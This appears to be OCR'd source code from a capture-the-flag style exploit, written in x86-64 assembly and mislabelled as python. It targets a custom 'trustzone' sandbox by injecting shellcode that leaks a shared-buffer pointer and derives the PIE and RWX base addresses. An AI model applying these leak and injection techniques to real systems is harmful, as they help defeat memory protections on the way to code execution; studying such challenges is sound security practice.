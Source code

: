 ```python
    mov rbx, 0x4000
    lea rcx, [rip + memprot_x86_64]
    mov rax, 8
    int 0x80
    
    mov rbx, 0x4000
    mov rcx, 0x1000
    mov rdx, 0x7
    lea rdi, [rip + password]
    mov rax, 10
    int 0x80

    /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
    mov rdi, 0x4000
    lea rsi, [rip+leak_shared]
    lea rcx, [rip+leak_shared_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke_trustzone with the custom shellcode leak_shared at the created trustzone
    int 0x80

    /* leak PIE base and RWX base address */
    mov rdi, 0x4000
    lea rsi, [rip+leak_pie_rwx]
    lea rcx, [rip+leak_pie_rwx_end]
    sub rcx, rsi
    rep movsb
    mov rax, 10 #call invoke trustzone to execute pie leak instructions
    int 0x80

    mov rax, 0x6
    int 0x80

    leak_shared:
        /* Call validate_handle 0 */
        xor rbx, rbx
        xor rcx, rcx
        mov rax, 4
        int 0x80
        mov r12, rax # store leaked value at r12
        /* Print leak for debugging purposes */
        mov rbx, rax
        mov rax, 0x2
        int 0x80
    leak_shared_end:
    leak_pie_rwx:
        /* Call map_address */
        mov rbx, 0x5000
        mov rcx, 0x2000
        mov rdx, r12 # r12 is shared_buffers[0]
        sub rdx, 0x12bf0 # map to the base of area instead of to the shared_buffers[0]
        mov rax, 5
        int 0x80
        /* Store leaked pie at r11 and leaked rwx at r10 */
        mov rbx, 0x5000
        add rbx, 0x1100
        mov r11, qword ptr [rbx]
        sub r11, 0x785b20 # r11 = PIE BASE
        mov rbx, 0x5000
        add rbx, 0x0b88
        mov r10, qword ptr [rbx]
        sub r10, 0x1c2f # r10 = RWX BASE
```